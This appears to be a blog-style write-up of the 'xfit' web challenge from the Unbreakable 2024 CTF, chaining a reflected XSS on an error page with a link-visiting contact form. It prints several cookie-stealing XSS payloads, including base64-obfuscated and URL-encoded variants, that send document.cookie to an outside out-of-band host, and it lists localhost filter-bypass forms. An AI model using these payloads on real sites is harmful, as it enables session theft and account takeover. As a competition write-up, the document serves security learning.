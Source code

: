 ```yaml
---
title: xfit
date: 2024-04-07T14:23:28+03:00
description: Writeup for xfit [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## DISCLAIMER

This challenge was not solved during the competition, but we were really close of the solution and spend a lot of time on it. We decided to write a writeup to
describe our approach and the solution we found after the competition.

## Challenge Description

Picture this: within the vast expanse of the digital realm, lies a crucial secret vault—a clandestine cache known as cookies. But beware, for these digital treasures are not scattered haphazardly. No, they are meticulously guarded within the confines of their respective domains, each one a sentinel of its cyber kingdom. It's a thrilling saga of hidden treasures and guarded gateways, where the very essence of your online identity hangs in the balance!


## Intuition

The description mention subdomains and cookies. Combining these two and the name of the challenge,
I assumed I had to steal cookie by using XSS. The website is a static one with only two endpoints:
 - `/contact` which send an email (it seems only the message parameter is required)
 - `/error?err=404` which returns a 404 error page (or 500, 200, ...)

![img.png](/images/unbreakable_2024/contact.png)
![img_1.png](/images/unbreakable_2024/err.png)

Here we can see the request to the `/contact` endpoint.

![img.png](/images/unbreakable_2024/request.png)

## What we tried

First we tried to remove all parameter from the request in order to see the behavior of the website.
We noticed we received some parsing error with a findLinks function. It gave us a hint about a potential SSRF or 
CSRF vulnerability.

![img.png](/images/unbreakable_2024/parse.png)

In order to confirm that wa tried to request a server under our control with this [tool](https://app.interactsh.com/#/).

![img.png](/images/unbreakable_2024/test.png)
![img_1.png](/images/unbreakable_2024/response.png)

As we can see above we got the request which means the server is visiting the link we provided.

Going back to the error page, it seems that the error parameter is vulnerable to XSS as the following picture shows.

![img.png](/images/unbreakable_2024/xss.png)

```js
<img src=x onerror=confirm(1)>
```

Knowing that we can now steal the cookie using the following logic:
 - Send a message to the `/contact` endpoint with the following payload:
```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="document.location='http://xhtfiwjfrxvxawnsmojcux2nwwez03yx3.oast.fun/?c='%2Bdocument.cookie">
```
 - Wait for the server to visit the error page
 - The admin's cookie will be sent to our server
 - Profit

![img.png](/images/unbreakable_2024/trying.png)

Unfortunately we do not receive any cookie it seems the parsing is not working as expected.

![img.png](/images/unbreakable_2024/noCookie.png)

The supposition is that the parsing ignore the first part of the URL (green part below) but 
only understand the second part as URL (blue part below). Therefore, it does not execute any javascript which
means we cannot steal the cookie.

![img.png](/images/unbreakable_2024/fail.png)

To bypass this we decided to base64 encode the second part with this payload:

```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly94aHRmaXdqZnJ4dnhhd25zbW9qY3V4Mm53d2V6MDN5eDMub2FzdC5mdW4vP2M9Jytkb2N1bWVudC5jb29raWU='))">
```

Unfortunately, this time, we did not receive any request on our server, so we assumed the parsing had some anti-SSRF
protection by blacklisting the localhost / 127.0.0.1 IP.

We started a lot of bypass techniques such as `http://0177.0.0.01`, `http://0x7f.0x0.0x0.0x1` and many more without success.

## Solution

We were pretty close of the actual solution by we were wrong by thinking the paring blacklisted the localhost IP.
We just used the wrong payload obfuscation by using base64. The correct payload was the same as the original one we did,
but URL encoding the special characters and from what I remember we also tried so WHAT THE F*** ???

```js
http://localhost/error.html?err=%3Cimg%20src%3Dx%20onerror%3Ddocument%2Elocation%3D%22http%3A%2F%2Fzyeapckdjkrwivdzxeeabjaadiyukbx8f%2Eoast%2Efun%2F%3Fc%3D%22%2Bdocument%2Ecookie%3E
```

In conclusion the challenge fu**** us because when we tried it,
the server either did not execute the javascript (document.cookie) or the server just crashed except 
one time for random and mysterious reason.

![img.png](/images/unbreakable_2024/fuck.png)


